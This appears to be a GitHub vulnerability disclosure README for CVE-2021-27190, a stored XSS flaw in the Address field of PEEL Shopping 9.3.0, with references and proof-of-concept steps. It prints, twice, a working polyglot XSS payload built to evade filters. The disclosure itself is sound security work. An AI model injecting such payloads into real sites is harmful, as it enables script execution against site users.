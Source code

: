 INFO
----

    # CVE-2021-27190 - PEEL Shopping, eCommerce shopping cart - Stored Cross-Site Scripting Vulnerability in 'Address'

    [![Watch the video](https://i.imgur.com/UsFUHok.png)](https://drive.google.com/file/d/1t1hksDsYqYsqryRq61tNIQQMTCFidtc1/view)


    ## Date

    2021-02-11 <br />

    ## Exploit Author
    Anmol K Sachan <br />

    ## Vendor Homepage
    https://www.peel.fr/ <br />

    ## Software Link
    https://www.peel.fr/nos-offres-1/peel-shopping-31.html <br />
    https://sourceforge.net/projects/peel-shopping/ <br />

    ## Vulnerable Software Link
    https://drive.google.com/file/d/1dIwRdaqtEyqUUgxbRqrHiS5WQ10nEG8z/view?usp=sharing <br />

    ## Software: :
    PEEL SHOPPING 9.3.0 <br />

    ## Vulnerability Type
    Stored Cross-site Scripting <br />

    ## Vulnerability
    Stored XSS <br />

    ## Tested on Windows 10 XAMPP
    <br />

    ## CVE Assigned
    CVE-2021-27190 <br />
    This application is vulnerable to Stored XSS vulnerability. <br />

    ## Vulnerable script
    http://localhost/peel-shopping_9_3_0/utilisateurs/change_params.php <br />

    https://github.com/anmolksachan/CVE-2021-27190-PEEL-Shopping-cart-9.3.0-Stored-XSS/edit/main/README.MD## Vulnerable parameters
    'Address' <br />

    ## Payload used <br />
    ```jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e```
    <br />
    ## POC
    https://drive.google.com/file/d/1t1hksDsYqYsqryRq61tNIQQMTCFidtc1/view <br />
    In the same page where we injected payload click on the text box to edit the address. <br />
    You will see your Javascript code (XSS) executed. <br />

    ## Referneces
    1. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-27190<br />
    2. https://packetstormsecurity.com/files/161367/PEEL-Shopping-9.3.0-Cross-Site-Scripting.html<br />
    3. https://www.exploit-db.com/exploits/49553<br />
    4. https://www.secuneus.com/cve-2021-27190-peel-shopping-ecommerce-shopping-cart-stored-cross-site-scripting-vulnerability-in-address/<br />
    5. https://cxsecurity.com/issue/WLB-2021020054<br />
    6. https://nvd.nist.gov/vuln/detail/CVE-2021-27190

Payload
-------

    jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e